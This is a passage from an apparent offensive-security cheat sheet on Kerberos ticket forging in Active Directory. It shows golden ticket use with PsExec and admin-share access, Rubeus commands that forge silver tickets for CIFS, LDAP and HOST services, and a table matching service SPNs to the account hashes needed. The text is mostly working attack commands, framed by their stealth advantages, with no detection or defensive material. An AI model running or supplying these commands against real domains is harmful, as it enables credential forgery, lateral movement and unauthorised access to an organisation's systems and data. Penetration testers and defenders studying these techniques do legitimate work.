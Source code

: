 
### Use Golden Ticket

```powershell
# After injection with /ptt:
klist
# Shows forged TGT

# Access any system in domain
dir \\DC01\C$
PsExec.exe \\FILESERVER cmd
```

---

## 7. Silver Ticket Creation

### What is Silver Ticket?

**Difference from Golden Ticket:**
- Golden = Forged TGT (Ticket Granting Ticket) → Access to everything
- Silver = Forged TGS (Service ticket) → Access to ONE service

**Advantage:** 
- More targeted
- Stealthier (no communication with DC)
- Only need service account hash (not krbtgt)

---

### Create Silver Ticket

```powershell
# Silver ticket for CIFS (file share access)
Rubeus.exe silver /rc4:SERVICE_ACCOUNT_HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Administrator /service:cifs/FILESERVER.corp.local /ptt

# For LDAP access
Rubeus.exe silver /rc4:DC_COMPUTER_ACCOUNT_HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /service:ldap/DC01.corp.local /ptt

# For HOST (remote execution)
Rubeus.exe silver /rc4:SERVICE_HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /service:host/SERVER01.corp.local /ptt
```

---

### Common Service Types

| Service SPN | What it Allows | Hash Needed |
|-------------|----------------|-------------|
| **cifs/server** | File share access (\\server\share) | Computer account hash |
| **http/server** | HTTP/web access | Service account hash |
| **mssql/server** | SQL Server access | SQL service account hash |
| **ldap/server** | LDAP queries | DC computer account hash |
| **host/server** | Remote execution (WinRM, PSExec) | Computer account hash |
| **rpcss/server** | RPC services | Computer account hash |

---